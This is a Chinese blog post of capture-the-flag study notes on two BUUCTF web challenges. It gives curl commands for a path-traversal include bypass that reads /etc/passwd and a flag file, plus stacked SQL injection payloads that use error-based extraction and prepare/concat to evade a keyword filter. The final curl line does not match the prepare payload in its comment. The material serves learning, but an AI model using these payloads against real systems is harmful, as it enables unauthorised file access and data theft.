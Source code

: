 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUCTF Web"
date:   2020-04-12 23:00:38 +0800
---
```


# Problems

## [HCTF 2018] WarmUp 1

```shell
url='http://a762a799-746e-4549-beb3-a076fbfd409e.node3.buuoj.cn/'
# 发现注释里有一个source.php 结果是一堆 entity encoding，先用 perl 处理一下
curl $url'source.php' | perl -MHTML::Entities -pe 'decode_entities($_)' > source.php

# 看下是什么编码？
file source.php
# source.php: ISO-8859 text, with very long lines
# 转换一下编码
iconv -f 'ISO-8859-1' -t 'UTF-8' source.php -o source.php

# 改后缀html，用浏览器打开看起来像是源代码，但是有很多标签；用脚本再处理一下，终于能看了
# 源代码的意思大概是包含一个名字和参数file的值相同的文件；
# 本来只能包含白名单source和hint这两个文件，但是却截取字符串中"?"之前的内容，用来和白名单比较
cp source.php source.html
./hctf_2018_warm_up_1_strip.py source.html > source.php

# 发现有个hint.php
curl $url'hint.php'
# flag not here, and flag in ffffllllaaaagggg

# 尝试访问 ffffllllaaaagggg 未果
curl $url'ffffllllaaaagggg'
curl $url'source.php?file=ffffllllaaaagggg'
# 不行
```
谷歌说可以给参数插入问号`?`和连续多个父目录`..`，比如PHP会把 `hint.php?/../`之后的内容视为当前目录，这里的原理还没有完全弄清楚；可能截取参数"?"是在对这个现象的提示？

```shell
# 因为源码用了REQUEST，表示参数从查询参数或表单中取得都是可以的
curl $url'source.php' -X POST -d 'file=hint.php?/../../../../etc/passwd'
curl $url'source.php?file=hint.php?/../../../../etc/passwd'
# 插入很多个父目录
curl $url'source.php?file=hint.php?/../../../../../ffffllllaaaagggg'
```

```python
# !/usr/bin/python3
# encoding=utf8
# hctf_2018_warm_up_1_strip.py
# Remove html tags
import sys

with open(sys.argv[1], encoding='utf8') as f:
  import re
  content = f.read()
  
  content = re.sub(r'\<span[^>]+\>', '', content)
  content = re.sub(r'\</span>', '', content)
  content = re.sub(r'\<br\s*/\>', '\n', content)
  print(content)
```

## [[强网杯 2019]随便注 1](http://91b13641-161f-4df8-9290-e2d26f5c5340.node3.buuoj.cn/)

```shell
url="http://91b13641-161f-4df8-9290-e2d26f5c5340.node3.buuoj.cn/?inject="
# 有一个 inject 参数。发现是 PHP
curl $url'1'

# q("1' -- a")
# 带上引号和注释，发现没有报错，原来的SQL应该是 'SELECT * FROM WHERE A=\''.$inject.'\' ... '
curl $url'1%27%20--%20a'

# q("1' order by 3 -- a")
# 报错，表示有2列
curl $url'1%27%20order%20by%203%20--%20a'

# q("9' union select 1,2,3 -- a")
# 不OK。下面的正则表达式表示关键字 select等，以及句号 . 被过滤掉了，大小写不能通过
# return preg_match("/select|update|delete|drop|insert|where|\./i",$inject)
curl $url'9%27%20union%20select%201%2C2%2C3%20--%20a'
# error-based sqli 看用户名 root@localhost，数据库名 supersqli，版本 10.3.18-MariaDB
# q("9' and extractvalue('',concat('~',user(),'~')) -- a")
curl $url'9%27%20and%20extractvalue%28%27%27%2Cconcat%28%27%7E%27%2Cuser%28%29%2C%27%7E%27%29%29%20--%20a'
```

谷歌给的提示是可以尝试看下是否可以注入多个SQL语句；既然 select 不能用来查DB信息，可以用一下 show 语句。

```shell
# 看schema 
# q("1';show databases#")
# 这里也不需要短路，会直接显示所有表
curl $url'1%27%3Bshow%20databases%23'
# 看表
# q("1';show tables#")
# 有两个表，1919810931114514 和 words
curl $url'9%27%3Bshow%20tables%23'
# 看表结构
# q("1'; desc `1919810931114514` #")
# 有两列 flag 和 NO，答案就在这个表 
curl $url'1%27%3B%20desc%20%601919810931114514%60%20%23'
```

但是还是不清楚怎么把答案select出来。谷歌说还有一种叫做**预编译SQL**的操作，简单来说就是在允许执行多个SQL语句的情况下，先prepare拼接sql语句然后execute。

```shell
# q("1'; prepare stat from concat('sel', 'ect * from `1919810931114514`'); execute stat;#")
# 有两列 flag 和 NO，答案就在这个表 
curl $url'1%27%3B%20desc%20%601919810931114514%60%20%23'
```


# Notes

- php
  - [isset](https://www.php.net/manual/en/function.isset.php)
  - [mb_substr](https://www.php.net/manual/en/function.mb-substr.php)
  - [in_array](https://www.php.net/manual/en/function.in-array.php)
  - [mb_strpos](https://www.php.net/manual/en/function.mb-strpos.php)
  - [include](https://www.php.net/manual/en/function.include.php)
    - `hint.php?/../XXXXXX`
    - consecutive `../`s
  - [multi_query](/)
- sql
  - error-based sqli
    - `extractvalue(frag, xpath)` xpath
  - [Prepared statement](https://dev.mysql.com/doc/refman/8.0/en/sql-prepared-statements.html)
    - prepare; set; execute
